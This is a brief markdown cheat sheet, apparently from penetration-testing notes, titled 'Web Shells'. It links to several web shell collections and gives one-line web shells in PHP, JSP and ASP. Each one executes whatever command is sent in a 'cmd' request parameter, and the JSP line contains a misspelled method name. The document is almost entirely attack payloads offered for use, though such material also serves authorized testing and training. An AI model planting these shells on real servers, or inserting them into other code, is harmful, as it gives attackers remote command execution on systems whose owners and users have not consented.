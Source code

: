 ```yaml
---
Web Shells
---
```

***

https://github.com/tennc/webshell

http://r57.gen.tr/
https://github.com/KaizenLouie/C99Shell-PHP7
https://www.1337pwn.com/best-php-web-shells/

#### PHP 
```php
<?php system($_REQUEST["cmd"]); ?>
```

#### JSP
```jsp
<% Runtime.getRuntime().exec(request.getParamenter("cmd")); %>
```

#### ASP
```asp
<% eval request("cmd") %>
```
